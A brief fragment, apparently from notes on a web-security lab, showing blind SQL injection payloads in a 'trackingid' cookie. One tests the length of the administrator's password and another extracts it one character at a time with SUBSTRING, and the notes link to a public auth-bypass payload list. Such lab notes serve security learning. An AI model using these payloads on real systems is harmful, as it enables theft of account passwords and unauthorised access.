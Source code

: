 > >     trackingid=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a
>
> > Verify the password character at the position of the 2 in the example.
> >
> >     trackingid=xyz' AND (SELECT SUBSTRING(password,2,1) FROM users WHERE username='administrator')='a 

<hr>

shortcut tool:
https://github.com/payloadbox/sql-injection-payload-list/blob/master/Intruder/exploit/Auth_Bypass.txt
